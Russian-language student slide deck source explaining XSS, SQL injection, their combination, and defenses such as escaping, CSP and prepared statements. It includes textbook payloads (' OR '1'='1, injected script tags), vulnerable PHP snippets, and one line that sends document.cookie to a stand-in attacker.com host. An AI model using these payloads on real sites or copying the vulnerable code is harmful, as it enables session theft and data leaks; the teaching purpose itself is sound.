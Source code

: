```yaml
---
## Front matter
lang: ru-RU
title: Доклад
subtitle: "Ошибки проверки вводимых данных: межсайтовый скриптинг в веб-приложениях, межсайтовый скриптинг при наличии SQL-инъекции"
author:
  - Зинченко А.Р
institute:
  - Российский университет дружбы народов, Москва, Россия
  - НБИбд-02-23
date: 14 мая 2025

## i18n babel
babel-lang: russian
babel-otherlangs: english

## Formatting pdf
toc: false
toc-title: Содержание
slide_level: 2
aspectratio: 169
section-titles: true
theme: metropolis
header-includes:
 - \metroset{progressbar=frametitle,sectionpage=progressbar,numbering=fraction}
---
```


# Информация

## Докладчик

  * Зинченко Анастасия Романовна
  * НБИбд-02-23
  * Российский университет дружбы народов

# Введение

Проверка вводимых данных — это один из ключевых аспектов информационной безопасности веб-приложений. Неправильная или недостаточная проверка пользовательского ввода может привести к серьёзным уязвимостям, включая межсайтовый скриптинг (XSS) и SQL-инъекции.

# Межсайтовый скриптинг (XSS)

XSS (Cross-Site Scripting) — это тип уязвимости, при которой злоумышленник внедряет вредоносный скрипт на сайт. Этот скрипт затем выполняется в браузере другого пользователя, обычно без его ведома.

Разновидности XSS:

1. Отражённый (Reflected XSS) — вредоносный код возвращается в ответе сервера немедленно, часто через параметры URL.
2. Сохранённый (Stored XSS) — скрипт сохраняется на сервере и автоматически исполняется при открытии определённой страницы.
3. DOM-based XSS — уязвимость возникает на стороне клиента, когда JavaScript обрабатывает вход без должной фильтрации.

# SQL-инъекция и её связь с XSS

SQL-инъекция — это тип атаки, при которой злоумышленник внедряет SQL-код в поле ввода, чтобы изменить поведение запроса к базе данных.

Классическая форма: SELECT * FROM users WHERE name = 'ввод пользователя';

Если пользователь введёт: ' OR '1'='1

Запрос станет: SELECT * FROM users WHERE name = '' OR '1'='1';

# XSS через SQL-инъекцию

Как это работает: Иногда SQL-инъекция позволяет злоумышленнику внедрить JavaScript-код прямо в базу данных. Если затем эта информация отображается на 
странице без экранирования — срабатывает XSS.
Пример: Хакер вводит <script>stealCookies()</script> в поле комментария. Комментарий сохраняется в БД. На странице отображается: <div>Комментарий: 
<script>stealCookies()</script></div> Браузер пользователя исполняет скрипт, возможно, передавая куки злоумышленнику. 

## Последствия:

1. Кража сессий.
2. Подмена интерфейса сайта.
3. Распространение вредоносного ПО.

# Почему это происходит

1. Отсутствие валидации данных на сервере.
2. Доверие к пользовательскому вводу. (Пример: сайт получает имя пользователя из cookie: $username = $_COOKIE["username"]; еcho "Привет, $username!"; 
Хакер меняет cookie на <script>document.location='http://attacker.com?c='+document.cookie</script> и скрипт исполняется при заходе на сайт.)

## Почему это происходит

3. Отсутствие экранирования HTML/JS при выводе данных.
4. Использование небезопасных функций (например, eval в JS). (Опасный пример: $sql = "SELECT * FROM users WHERE name = '" . $_GET['name'] . "'"; 
Если злоумышленник передаст в параметре ' OR '1'='1, то получится: SELECT * FROM users WHERE name = '' OR '1'='1' в результате возвращаются все 
пользователи.)

# Методы защиты 

##Для предотвращения XSS:

1. Экранирование HTML при выводе.
2. Использование безопасных шаблонизаторов. 
3. Запрет выполнения скриптов с помощью Content Security Policy (CSP).
4. Проверка и фильтрация входных данных. (Примеры: использование регулярных выражений (^[a-zA-Z0-9_]{3,30}$), проверка типов (int, email, url), запрет 
тегов (strip_tags() в PHP, DOMPurify в JS))

## Для предотвращения SQL-инъекций:

1. Использование подготовленных выражений (prepared statements). 
2. Использование ORM. (Примеры: Django ORM (Python), Hibernate (Java), Sequelize (Node.js).)
3. Изоляция пользовательского ввода.
4. Минимизация прав учетной записи базы данных.

## Общие рекомендации:

1. Никогда не доверяйте данным от пользователя.
2. Проверка данных на клиенте — это удобно, но не надёжно, необходима серверная проверка.

# Заключение

Межсайтовый скриптинг и SQL-инъекции — это старые, но всё ещё крайне опасные уязвимости, часто возникающие из-за одних и тех же причин: доверия к пользовательскому вводу. Их комбинация может иметь катастрофические последствия — от утечки персональных данных до полного захвата веб-приложения.

# Выводы 

Комплексная защита, основанная на принципах нулевого доверия, экранирования, фильтрации и безопасных API — ключ к устойчивой архитектуре веб-приложений.

# Список литературы{.unnumbered}

::: {#refs}
:::
